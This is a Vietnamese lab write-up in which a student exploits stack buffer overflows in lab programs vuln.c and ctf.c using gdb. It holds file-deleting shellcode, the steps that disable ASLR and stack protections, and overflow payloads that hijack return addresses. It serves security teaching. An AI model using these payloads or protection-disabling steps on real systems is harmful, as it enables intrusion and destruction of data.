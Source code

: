# LAB 2
## Task 1: Inject code to delete file_asm through vuln.c is given on github

Dưới đây là code của `vuln.c`
![task1.1](./image/task1.1.png)

Và đây là code của `file_del.asm`
![task1.2](./image/task1.2.png)

Đầu tiên chúng ta sẽ liên kết tới máy ảo bằng cách sử dụng câu lệnh `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`

![task1.3](./image/task1.3.png)

Sau khi liên kết thư mục Seclabs từ hệ điều hành Window trên máy chúng ta đến seclabs trên hệ điều hành của máy ảo

Vì Ubuntu 16.04 không cho phép chúng ta thực thi `code` trên `stack`. Nên chúng ta cần phải sử dụng câu lệnh `sudo ln -sf /bin/zsh /bin/sh` để có thể thực thi `code` trên `stack`

![task1.4](./image/task1.4.png)

Và để có thể dễ dàng hơn khi thực hiện bài lab này, chúng ta sẽ phải tắt chức năng cấp phát địa chỉ ngẫu nhiên của hệ điều hành bằng lệnh `sudo sysctl -w kernel.randomize_va_space=0`

![task1.5](./image/task1.5.png)

Sau đó chúng ta sẽ đi biên dịch chương trình hợp ngữ `file_del.asm` bằng lệnh `nasm -g -f elf file_del.asm` và liên kết bằng lệnh `ld -m elf_i386 -o file_del file_del.o`

![task1.6](./image/task1.6.png)

Sau đó chúng ta sẽ lấy được chuỗi thập lục phân của `file_del.asm` bằng cách sử dụng: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

![task1.7](./image/task1.7.png)

=> Chuỗi thập lục phân: `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.`

Nhưng ở đây ta sẽ không cần `xdummyfile`
=> `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

Giờ chúng ta sẽ biên dịch `vuln.c` sao cho chúng ta có thể thực thi code trên stack bằng cách sử dụng lệnh: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Cuối cùng ta tạo một file với tên `dummyfile`

![task1.8](./image/task1.8.png)

Dựa vào code của `vuln.c` ta có thể vẽ được stackframe 
|Stackframe|
|----------|
|buf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|Argc (4 bytes)|
|Argv (4 bytes)|

Nhiệm vụ của chúng ta là phải thực thi được `file_del.asm` trong stack, vì vậy chúng ta cần làm tràn bộ đệm từ biến `buf` đến `return address` sao cho `return address` chỉ đến chuỗi thập lục phân của `file_del.asm`, mà `file_del.asm` lại nằm ở `esp` do chúng ta sẽ truyền chuỗi thập lục phân của `file_del.asm` vào đầu tiên. Từ đó chúng ta suy ra được sẽ cần truyền 36 bytes của chuỗi thập lục phân + 32 bytes đệm + 4 bytes địa chỉ `esp`. Nhưng chúng ta có thể thay 4 bytes của địa chỉ `esp` bằng `xff` để quan sát quá trình.

Dùng `gdb` để quan sát ta có thể đặt 2 breakpoint ở `0x0804843e` và `0x0804846b` 
![task1.9](./image/task1.9.png)

Chúng ta xài lệnh `r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")`

![task1.10](./image/task1.10.png)

Sử dụng `x/80xb $esp` để xem toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

![task1.11](./image/task1.11.png)

Sau đó ta tiếp tục bằng `continue`

![task1.12](./image/task1.12.png)

Sử dụng `x/80xb $esp` để xem lại toàn bộ stackframe.(Màu vàng: `buf`; Màu xanh lá: `esp`; Màu xanh dương:`return address`)

![task1.13](./image/task1.13.png)

So sánh với chuỗi thập lục phân, ta thấy được chỉ có 3 bytes đầu là đúng còn lại thì đều khác. Điều này là do chuỗi của chúng ta có `\x0a`.

Mà ta phải tránh:
`\x0a`: kí tự xuống dòng
`\x09`: tab ngang 
`\x00`: kí tự Null

Mà `\x0a` có giá trị thập phân là 10, xem trong chương trình hợp ngữ ta có thể thấy: 

![task1.14](./image/task1.14.png)

Do đó, cần thay đổi file asm

![task1.15](./image/task1.15.png)

Sau đó chúng ta biên dịch lại `file_del.asm` để lấy chuỗi thập lục phân mới

`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

Chúng ta sẽ thay bytes cuối của chuỗi thập lục phân thành `0x0f` để ngăn chuỗi kết thúc bởi `0x00`

`r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f' + 'a'*32 +'\xff\xff\xff\xff')")`

![task1.16](./image/task1.16.png)

Bây giờ, chương trình sẽ thông báo lỗi do nó không thể tìm để địa chỉ `0xffffffff` để trả về

=> Chúng ta cần thay `0x0f` thành `0x00` ở địa chỉ `0xffffd6cb` bằng lệnh `set {unsigned char} 0xffffd6cb = 0x00`. Và chúng ta sẽ thay tiếp địa chỉ trả về `0xffffffff` bằng giá trị của `buf` là `0xffffd6a8` bằng lệnh `set *0xffffd6ec = 0xffffd6a8`

Kết quả có được sẽ là:

![task1.17](./image/task1.17.png)

Tiếp tục chạy chương trình

![task1.18](./image/task1.18.png)

![task1.19](./image/task1.19.png)

Chúng ta thấy được dummyfile vẫn còn. Quay lại code hợp ngữ: `objdump -d file_del`

![task1.20](./image/task1.20.png)

Như chúng ta thấy thì `dummyfile` bắt đầu từ `0xffffd6c2` không phải từ `0x080407a` trong chương trình C

=> Thay `0xffffd6b1` thành `0xffffd6c2`: `set *0xffffd6b1 = 0xffffd6c2`

![task1.21](./image/task1.21.png)

Tiếp tục chạy chương trình

![task1.22](./image/task1.22.png)

Ta thấy `dummyfile` đã được xóa thành công.

## Task 2: Conduct attack on ctf.c

Dưới đây là code của `ctf.c`

![task2.1](./image/task2.1.png)

Từ code ta có thể thấy được lỗ hỏng ở đây nằm ở hàm `strcpy()` cho phép ta nhập dự liệu nhiều hơn so với dữ liệu đã khai báo dẫn đến trình trạng overflow và ta có thể khai thác từ đây. Và nhiệm vụ ở đây của chúng ta chính là thực thi được hàm `myfunc()` với biến `p=0x04081211` và biến `q=0x4644262`

Và từ code thì ta có thể có được stackframe của hàm `vuln()`:
|vuln()|
|----------|
|buf (100 bytes)|
|EBP (4 bytes)|
|Return Address|
|s (4 bytes)|

Và hàm `myfunc()`:
|myfunc()|
|----------|
|filebuf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|p (4 bytes)|
|q (4 bytes)|

Từ đây chúng ta biết được, để gây ra overflow ta cần 104 bytes đệm và 4 bytes địa chỉ của `myfunc()` để ghi đè lên `return address` trên stackframe của `vuln()` nhưng vì ở đây `myfunc()` không được gọi trực tiếp từ hệ thống nên sẽ không được cấp phát dữ liệu cho biến `p` và `q` do đó chúng ta phải tìm được địa chỉ mà `myfunc()` lấy giá trị `p` và `q` từ đó chúng ta có thể overflow để ghi đè đến đó.

Đầu tiên chúng ta sẽ biên dịch `ctf.c`: `gcc -g ctf.c -o ctf.out -fno-stack-protector-mpreferred-stack-boundary=2`

Sau đó dùng `gdb` để quan sát `myfunc`

![task2.2](./image/task2.2.png)

+ Màu xanh dương là địa chỉ của `myfunc()`: `0x0804851b`
+ Màu xanh lá là địa chỉ mà `myfunc()` lấy giá trị của `p`: `ebp+0x8` (ebp + 8)
+ Màu vàng là địa chỉ mà `myfunc()` lấy giá trị của `q`: `ebp+0xc` (ebp + 12)

Từ đó chúng ta sẽ sử dụng lệnh: 

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

Để ghi đè địa chỉ `myfunc()` cũng như giá trị biến `p` và `q`.

Trước khi chạy lệnh ta cần tạo 1 file `flag1.txt` vì `myfunc()` sẽ có đọc file này.

![task2.3](./image/task2.3.png)

Và giờ ta sẽ chạy lệnh

![task2.4](./image/task2.4.png)

Như ta thấy, sau khi chạy thì bị lỗi `0x61616161 in ??` và dừng. Nguyên nhân là do hệ thống không biết địa chỉ trả về này. Vì vậy chúng ta cần phải lấy địa chỉ của `exit` để ghi đè lên địa chỉ trả về mới là `0x61616161` hay rõ hơn chính là 4 bytes đệm của chúng ta giữa địa chỉ của `myfunc()` và giá trị của `p` (0x61616161 = 'a'*4)

Do đó chúng ta sẽ tìm địa chỉ của `exit`

![task2.5](./image/task2.5.png)

Có được địa chỉ của `exit`: `0xf7e449e0`

=> Lệnh mới của chúng ta là: `r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x49\xe4\xf7'+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")`

![task2.6](./image/task2.6.png)

Và chúng ta đã thành công chạy được `myfunc()` cũng như truyền vào được giá trị của `p` và `q`.